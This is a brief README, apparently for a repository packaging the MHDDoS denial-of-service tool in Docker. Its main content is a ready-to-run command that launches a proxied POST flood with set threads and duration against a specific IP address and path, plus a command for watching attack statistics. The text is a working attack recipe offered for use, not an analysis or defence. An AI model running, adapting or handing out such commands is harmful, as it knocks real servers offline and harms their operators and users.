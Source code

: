 # mhd
HOW TO START
docker build -t mhd:0 .
docker run -d -it mhd:0 python3 /MHDDoS/start.py POST https://185.170.2.7/sc1/authreq 6 1000 proxy.txt 20 500 tmp.post debug=info

check stat 
docker run -d -it mhd:0 tools.py -> dstat
